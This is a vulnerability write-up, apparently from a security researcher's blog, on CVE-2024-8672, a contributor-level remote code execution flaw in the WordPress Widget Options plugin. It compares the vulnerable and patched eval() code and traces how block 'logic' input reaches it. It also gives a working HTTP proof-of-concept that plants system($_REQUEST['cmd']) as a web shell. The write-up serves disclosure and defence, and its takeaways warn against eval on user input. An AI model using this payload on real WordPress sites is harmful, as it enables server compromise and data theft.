

# CVE-2024-8672 Analysis & PoC


<!--more-->

## CVE & Basic Info

**The Widget Options – The #1 WordPress Widget & Block Control Plugin** for WordPress contains a **Remote Code Execution** vulnerability in all versions up to and including **4.0.7** via the **display logic** feature extended for multiple **page builders**, because the plugin allows input to pass through **eval()** without filtering or capability checks, allowing an authenticated attacker with **contributor-level access** or higher to execute code on the server; although it has been **patched**, the issue still leaves residual risk as it has not been fully hardened.

* **CVE ID**: [CVE-2024-8672](https://www.cve.org/CVERecord?id=CVE-2024-8672)
* **Vulnerability Type**: Remote Code Execution
* **Affected Versions**: <= 4.0.7
* **Patched Versions**: 4.0.8
* **CVSS severity**: High (9.9)
* **Required Privilege**: Contributor
* **Product**: [WordPress Widget Options Plugin](https://wordpress.org/plugins/widget-options/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Widget Options**:

  * `4.0.7` – **vulnerable**
  * `4.1.3` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Cause

**In the vulnerable version (v4.0.7):**

```php {title="extras.php v4.0.7" data-open=true hl_lines=[5]}
function widgetopts_safe_eval($expression)
{
    ob_start();
    try {
        $result = (bool) eval("return $expression;");
    } catch (Throwable $e) {
        return false;
    }
    ob_end_clean();

    return $result;
}
```

The vulnerability originates from the `widgetopts_safe_eval` function, which allows execution of arbitrary commands via `eval`.

**Patched version (v4.1.3):**

```php {title="extras.php v4.1.3" data-open=true hl_lines=[10,22]}
function widgetopts_safe_eval($expression)
{
    if (widgetopts_is_widget_or_post_preview()) {
        // Always return true for previews unless the user is an administrator
        if (!current_user_can('administrator')) {
            return true;
        }
    }

    $validation_result = widgetopts_validate_expression($expression);

    if ($validation_result['valid'] === false) {
        return false;
    }

    if (stristr($expression, "return") === false) {
        $expression = "return (" . $expression . ");";
    }

    ob_start();
    try {
        $result = (bool) (@eval($expression));
    } catch (\Exception $e) {
        $result = false;
    } catch (\Error $e) {
        $result = false;
    } catch (\ParseError $e) {
        $result = false;
    } catch (\Throwable $e) {
        $result = false;
    }
    ob_end_clean();

    return $result;
}
```

The patch validates `$expression` by calling the function `widgetopts_validate_expression`
([https://plugins.trac.wordpress.org/browser/widget-options/trunk/includes/extras.php#L534](https://plugins.trac.wordpress.org/browser/widget-options/trunk/includes/extras.php#L534))

## Analysis

This plugin registers a **filter hook** on `render_block`:

```php
add_filter('render_block', function ($block_content, $parsed_block, $obj) {
    if (!is_admin()) {
        add_filter("render_block_{$obj->name}", "blockopts_filter_before_display", 100, 3);
    }
    return $block_content;
}, 100, 3);
```

* The `render_block` hook is triggered every time a block is rendered in the **WordPress default editor (Gutenberg)**.
* If not in the admin environment (`!is_admin()`), the plugin attaches an additional filter for the current block (`render_block_{block_name}`) to process the content before displaying it, via the function `blockopts_filter_before_display`.

```php {title="gutenberg-toolbar.php v4.0.7" data-open=true hl_lines=[4,6,8,22]}
function blockopts_filter_before_display($block_content, $parsed_block, $obj)
{
    ...
    if (isset($parsed_block) && isset($parsed_block['attrs']) && (isset($parsed_block['attrs']['extended_widget_opts']) || isset($parsed_block['attrs']['extended_widget_opts_block']))) {
        ...
        if ('activate' == $widget_options['logic']) {
			// display widget logic
			if (isset($opts['class']) && isset($opts['class']['logic']) && !empty($opts['class']['logic'])) {
				$display_logic = stripslashes(trim($opts['class']['logic']));
				$display_logic = apply_filters('widget_options_logic_override_block', $display_logic);
				$display_logic = apply_filters('extended_widget_options_logic_override_block', $display_logic);
				if ($display_logic === false) {
					return false;
				}
				if ($display_logic === true) {
					return true;
				}
				// if (stristr($display_logic, "return") === false) {
				// 	$display_logic = "return (" . $display_logic . ");";
				// }
				$display_logic = htmlspecialchars_decode($display_logic, ENT_QUOTES);
				if (!widgetopts_safe_eval($display_logic)) {
					return false;
				}
			}
		}
        ...
    }
}
```

Line 4 checks whether `Gutenberg Page & Post Block Options` is enabled; we enable it in the Admin Dashboard.


On line 6 and line 8, the code checks whether the **logic** field exists and is not empty. If this condition is met, the function `widgetopts_safe_eval($display_logic)` is called, resulting in the execution of any command passed into it.


Here, when using a **Contributor** account to create a post, the logic field appears in the request with the value set as a `payload`. We can fully control this field.

## Flow


graph TD
A["Attacker has a Contributor (or higher) account"]
--> B["Creates or edits a post using Gutenberg"]

B --> C["Inserts malicious PHP into the 'Logic' field (extended_widget_opts)"]
C --> D["Payload is saved in block attributes"]

D --> E["render_block hook is triggered"]
E --> F["blockopts_filter_before_display() is executed"]

F --> G["widgetopts_safe_eval() is called"]
G --> H["eval() executes the attacker’s payload"]

H --> I["Remote Code Execution on the server"]


## Proof of Concept (PoC)

1. Using an Administrator account, enable the option **Gutenberg Page & Post Block Options**
2. Create a post with a Contributor account:

```http
POST /index.php/wp-json/wp/v2/posts/170?_locale=user&cmd=ls+/ HTTP/1.1
Host: localhost
...
{"id":170,"title":"testing","content":"<!-- wp:paragraph {\"atts\":{\"id_base\":-1,\"column\":{\"desktop\":\"12\",\"tablet\":\"12\",\"mobile\":\"12\"},\"alignment\":{\"desktop\":\"default\",\"tablet\":\"default\",\"mobile\":\"default\"},\"roles\":{\"state\":\"\",\"options\":\"hide\"},\"visibility\":{\"selected\":\"0\",\"options\":\"hide\",\"acf\":{\"visibility\":\"hide\",\"field\":\"\",\"condition\":\"\",\"value\":\"\"}},\"author_page\":{\"author_pages\":{\"selections\":\"1\"}},\"devices\":{\"options\":\"hide\"},\"days\":{\"options\":\"hide\"},\"dates\":{\"options\":\"hide\",\"from\":\"\",\"to\":\"\"},\"styling\":{\"selected\":\"0\",\"bg_image\":\"\",\"background\":\"\",\"background_hover\":\"\",\"heading\":\"\",\"text\":\"\",\"links\":\"\",\"links_hover\":\"\",\"border_color\":\"\",\"border_type\":\"\",\"border_width\":\"\",\"background_input\":\"\",\"text_input\":\"\",\"border_color_input\":\"\",\"border_type_input\":\"\",\"border_width_input\":\"\",\"background_submit\":\"\",\"background_submit_hover\":\"\",\"text_submit\":\"\",\"border_color_submit\":\"\",\"border_type_submit\":\"\",\"border_width_submit\":\"\",\"list_border_color\":\"\",\"table_border_color\":\"\"},\"class\":{\"selected\":\"0\",\"link\":\"\",\"id\":\"a\",\"classes\":\"\",\"animation\":\"\",\"event\":\"enters\",\"speed\":\"\",\"offset\":\"\",\"delay\":\"\",\"logic\":\"system($_REQUEST[\"cmd\"])\"},\"tabselect\":\"0\"},\"dateUpdated\":123} -->\n<p>Payload</p>\n<!-- /wp:paragraph -->","status":"pending"}
```



## Conclusion

The vulnerability in **Widget Options <= 4.0.7** stems from the **unsafe use of `eval()`** in the **display logic** feature. User-controlled data from the block attribute `extended_widget_opts` is passed directly into the `widgetopts_safe_eval()` function without **proper validation, filtering, or sanitization**. This allows an **authenticated** attacker with **Contributor (or higher)** privileges to inject and execute arbitrary PHP code during block rendering, leading to **Remote Code Execution (RCE)** on the server.

Although later versions introduced expression validation, the root cause still lies in **trusting unfiltered logic input** and allowing dynamic execution through `eval()`.

## Key Takeaways

* **Never pass user-controlled data into `eval()`**, even in “logic” or conditional features.
* All block / widget attributes must be **strictly validated and sanitized** before use.
* **Contributor-level privileges can still be extremely dangerous** when combined with unsafe server-side code execution mechanisms.
* Avoid dynamic code execution; instead, use a **safe parser** or a **whitelist of valid expressions**.

## References

[Remote Code Execution (RCE)](https://patchstack.com/academy/wordpress/vulnerabilities/remote-code-execution/)

[WordPress Widget Options Plugin <= 4.0.7 is vulnerable to PHP Object Injection](https://patchstack.com/database/wordpress/plugin/widget-options/vulnerability/wordpress-widget-options-plugin-4-0-7-authenticated-contributor-remote-code-execution-vulnerability)

---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-12-04-cve-2024-8672/  

